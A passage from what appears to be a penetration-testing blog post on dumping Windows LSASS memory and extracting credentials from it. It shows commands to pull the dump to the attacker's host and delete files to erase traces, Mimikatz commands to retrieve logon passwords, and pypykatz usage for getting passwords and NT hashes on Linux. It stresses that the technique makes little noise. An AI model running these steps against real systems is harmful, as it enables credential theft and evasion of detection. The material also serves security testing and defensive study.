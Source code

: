 The dump then needs to be downloaded on the attacker's host, and traces on the remote host should be erased.

[![Get Procdump](/assets/uploads/2019/11/get_procdump.png)](/assets/uploads/2019/11/get_procdump.png)


```
# get lsass.dmp
# del procdump.exe
# del lsass.dmp
```

Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.

[![Mimikatz Dump](/assets/uploads/2019/11/mimikatz_dump.png)](/assets/uploads/2019/11/mimikatz_dump.png)

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords
```

This technique is very practical since it does not generate much noise and only legitimate executable is used on the targeted hosts.

## Limits & Improvements

There are different limitations to this method. We will outline them here, and suggest improvements to address them.

### Linux / Windows

The first issue is that during my tests, I am mainly using Linux, whether for web tests or internal tests, and Mimikatz is a tool exclusively developed for Windows. It would be ideal to be able to carry out the attack chain described above from a Linux computer.

Fortunately, the [Pypykatz](https://github.com/skelsec/pypykatz) project by [Skelsec](https://twitter.com/skelsec) can help us solve this issue. Skelsec has developed a partial implementation of Mimikatz in pure python, which means cross-platform. Like Mimikatz, this tool lets us extract the secrets of lsass dumps.

[![Pypykatz Example](/assets/uploads/2019/11/pypykatz_example.png)](/assets/uploads/2019/11/pypykatz_example.png)

```
pypykatz lsa minidump lsass.dmp
```

Thanks to this project, it is now possible to do everything from a Linux machine. All the steps presented in the previous section are applicable, and when lsass dump has been downloaded to the attacker's host, pypykatz is used to extract usernames and passwords or NT hashes from this dump.

So far so good, let's go deeper.

### Windows Defender
